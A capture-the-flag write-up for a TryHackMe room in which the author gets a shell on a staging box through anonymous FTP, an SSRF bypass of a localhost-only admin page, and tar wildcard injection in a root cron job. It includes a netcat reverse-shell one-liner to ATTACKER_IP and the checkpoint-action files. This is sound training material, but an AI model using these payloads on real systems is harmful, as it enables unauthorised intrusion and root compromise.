






# Operation Coldstart

**Difficulty:** 🟢 Easy · **Room:** [TryHackMe ↗](https://tryhackme.com/room/operationcoldstart)

Volt Labs, a small SaaS shop, suspects an old staging server has rotted into an exposed liability. Mara has assigned you the engagement. Find your way in and demonstrate full compromise.

---

## Reconnaissance

I began with an `nmap` scan to see which ports were open:

```bash
nmap MACHINE_IP -p-
```

The scan revealed that FTP was running on port 21, SSH on 22, and HTTP on 80. I followed up with a more detailed scan, enumerating versions and using nmap's default scripts:



The scan also showed that FTP allowed anonymous login. I logged in and found a `pub` directory containing `backup.tar.gz`, which I downloaded:



I extracted the archive:

```bash
tar -xfz backup.tar.gz
```

It contained a `voltlabs-preview` directory with `README.md`, `requirements.txt`, and `app.py`. I also visited the webpage, which turned out to be a URL preview service:



---

## Initial Access

After inspecting `app.py`, I found some flaws:

```python
ALLOWED_HOSTS = {"kestrel.thm"}
@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"

```

The admin panel only accepted requests coming from `127.0.0.1`, and the preview tool would only fetch URLs on an allow-listed host, `kestrel.thm`. The code showed that requesting `http://kestrel.thm/admin/notes` through the preview tool would return the contents of `/opt/voltlabs-preview/admin_notes.txt` — since `kestrel.thm` pointed back at the server's own loopback address, the request satisfied both the host allow-list and the localhost check at the same time, an SSRF that bypassed the admin panel's access control entirely. By submitting that URL to the tool, I was able to read `admin_notes.txt`, which contained SSH credentials for `webdev`:



I logged in as `webdev` and got the first flag:



---

## Privilege Escalation

`sudo -l` showed nothing useful. However, I found an interesting cron job in `/etc/cron.d` called `voltlabs-backup`:

```bash
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *

```

This job ran as root every minute, archiving everything in `/opt/backups` into `/var/backups/uploads.tgz` using a wildcard (`*`). That's the escalation path: since the command uses a wildcard, naming a file in `/opt/backups` (which I could write to) something like `-x` would cause `tar` to interpret it as an option rather than a filename — a classic tar wildcard injection.

I created a `root.sh` reverse shell script in `/opt/backups`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Next, I created two additional files:

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh root.sh'
```

The first tricks `tar` into enabling checkpoints, and the second tells it to run `root.sh` as the checkpoint action. On the next scheduled run, `tar` executed my script as root, giving me a reverse shell and the second flag:



---

## Kill Chain

This box was a short chain built almost entirely around trusting the network layer to enforce access control. Anonymous FTP access leaked a backup of the web application's source code, which was enough to spot the bug without ever touching the live site directly: the admin panel restricted access to localhost, but the application's own URL-preview feature could be pointed at an allow-listed hostname that itself resolved back to the server — turning a same-origin restriction into a way to fetch admin-only content from the outside. That leaked SSH credentials for a real user, and from there, a root-owned cron job that fed a wildcard into `tar` on a directory the user could write to made the final jump to root straightforward.

`Anonymous FTP → source code disclosure → SSRF bypass of admin IP check → webdev (SSH) → root (tar wildcard injection)`

- **Reconnaissance:** Anonymous FTP access → downloaded a backup archive containing the web app's source code
- **Initial Access:** SSRF via the URL-preview feature → bypassed the admin panel's localhost-only restriction → disclosed SSH credentials for `webdev`, first flag
- **Privilege Escalation:** Root-owned cron job running `tar` with a wildcard on a writable directory → tar wildcard injection → reverse shell as root, second flag

> Thanks for reading!